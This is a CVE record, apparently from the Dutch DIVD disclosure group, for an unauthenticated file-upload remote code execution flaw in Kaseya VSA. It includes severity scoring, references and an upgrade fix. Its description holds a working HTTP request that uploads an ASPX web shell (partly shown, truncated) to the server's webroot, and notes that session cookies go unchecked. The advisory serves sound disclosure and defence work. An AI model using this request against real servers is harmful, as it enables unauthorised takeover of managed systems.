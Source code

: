 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta" : {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30118",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated Remote Code Execution in Kaseya VSA < v9.5.5"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA (On-premise and SaaS)",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "An attacker can upload files with the privilege of the Web Server process for Kaseya VSA Unified Remote Monitoring & Management (RMM) 9.5.4.2149 and subsequently use these files to execute asp commands\n\nThe api /SystemTab/uploader.aspx is vulnerable to an unauthenticated arbitrary file upload leading to RCE.  An attacker can upload files with the privilege of the Web Server process and subsequently use these files to execute asp commands.\n\nDetailed description\n---\nGiven the following request:\n```\nPOST /SystemTab/uploader.aspx?Filename=shellz.aspx&PathData=C%3A%5CKaseya%5CWebPages%5C&__RequestValidationToken=ac1906a5-d511-47e3-8500-47cc4b0ec219&qqfile=shellz.aspx HTTP/1.1\nHost: 192.168.1.194\nCookie:  sessionId=92812726; %5F%5FRequestValidationToken=ac1906a5%2Dd511%2D47e3%2D8500%2D47cc4b0ec219\nContent-Length: 12\n\n<%@ Page Language=\"C#\" Debug=\"true\" validateRequest=\"false\" %>\n<%@ Import namespace=\"System.Web.UI.WebControls\" %>\n<%@ Import namespace=\"System.Diagnostics\" %>\n<%@ Import namespace=\"System.IO\" %>\n<%@ Import namespace=\"System\" %>\n<%@ Import namespace=\"System.Data\" %>\n<%@ Import namespace=\"System.Data.SqlClient\" %>\n<%@ Import namespace=\"System.Security.AccessControl\" %> \n<%@ Import namespace=\"System.Security.Principal\" %>\n<%@ Import namespace=\"System.Collections.Generic\" %> \n<%@ Import namespace=\"System.Collections\" %> \n \n<script runat=\"server\">\n \nprivate const string password = \"pass\";  // The password ( pass )\nprivate const string style = \"dark\";  // The style ( light / dark )\n \nprotected void Page_Load(object sender, EventArgs e)\n{\n\t//this.Remote(password);\n\tthis.Login(password);\n\tthis.Style(); \n\tthis.ServerInfo(); \n\t\n<snip>\n```\nThe attacker can control the name of the file written via the qqfile parameter and the location of the file written via the PathData parameter.\n\nEven though the call requires that a sessionId cookie is passed we have determined that the sessionId is not actually validated and any numeric value is accepted as valid.\n\nSecurity issues discovered\n---\n* a sessionId cookie is required by /SystemTab/uploader.aspx, but is not actually validated, allowing an attacker to bypass authentication\n* /SystemTab/uploader.aspx allows an attacker to create a file with arbitrary content in any place the webserver has write access\n* The web server process has write access to the webroot where the attacker can execute it by requesting the URL of the newly created file.\n\nImpact\n---\nThis arbitrary file upload allows an attacker to place files of his own choosing on any location on the hard drive of the server the webserver process has access to, including (but not limited to) the webroot. If the attacker uploads files with code to the webroot (e.g. aspx code) he can then execute this code in the context of the webserver to breach either the integrity, confidentiality, or availability of the system or to steal credentials of other users. In other words, this can lead to a full system compromise.\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 9.8,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-434 Unrestricted Upload of File with Dangerous Type"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://csirt.divd.nl/CVE-2021-30118",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/CVE-2021-30118"
            },
            {
                "name": "https://csirt.divd.nl/DIVD-2021-00011",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/DIVD-2021-00011"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021"
            }
        ]
    },
    "solution": [
        {
            "lang": "eng",
            "value": "SaaS version has been fixed by the vendor.\nUpgrade on-premise to version 9.5.6 or above"
        }
    ],
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


